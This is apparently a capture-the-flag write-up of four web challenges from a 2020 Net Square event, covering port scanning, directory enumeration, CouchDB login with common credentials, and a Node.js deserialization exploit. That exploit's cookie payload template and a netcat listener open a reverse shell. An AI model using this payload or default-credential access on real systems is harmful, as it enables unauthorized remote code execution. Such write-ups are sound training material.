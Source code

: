 # CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM

## Organized By

<kbd>![](NSCTFAUGW4/00.png)</kbd>   

[Net Square Solutions Pvt. Ltd.](https://net-square.com)

## Overview

There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd>![](NSCTFAUGW4/0.png)</kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd>![](NSCTFAUGW4/1.png)</kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd>![](NSCTFAUGW4/2.png)</kbd>

I visited the "sales" directory and I got the first flag.

<kbd>![](NSCTFAUGW4/3.png)</kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd>![](NSCTFAUGW4/4.png)</kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd>![](NSCTFAUGW4/5.png)</kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd>![](NSCTFAUGW4/6.png)</kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd>![](NSCTFAUGW4/7.png)</kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd>![](NSCTFAUGW4/8.png)</kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd>![](NSCTFAUGW4/9.png)</kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd>![](NSCTFAUGW4/10.png)</kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link.

<kbd>![](NSCTFAUGW4/11.png)</kbd>

In 4th PDF, I found the third flag.

<kbd>![](NSCTFAUGW4/12.png)</kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd>![](NSCTFAUGW4/13.png)</kbd>

After login, application was showing "Under progress" page.

<kbd>![](NSCTFAUGW4/14.png)</kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd>![](NSCTFAUGW4/15.png)</kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd>![](NSCTFAUGW4/16.png)</kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd>![](NSCTFAUGW4/17.png)</kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd>![](NSCTFAUGW4/18.png)</kbd>

Encode the payload in base64.

<kbd>![](NSCTFAUGW4/19.png)</kbd>

Now refresh the same page and intercept the request.

<kbd>![](NSCTFAUGW4/20.png)</kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd>![](NSCTFAUGW4/21.png)</kbd>

You got the reverse shell!!

<kbd>![](NSCTFAUGW4/22.png)</kbd>

Now you just need to observe the flag.

<kbd>![](NSCTFAUGW4/23.png)</kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*

## CTF Statistics

<kbd>![](NSCTFAUGW4/scoreboard.png)</kbd>
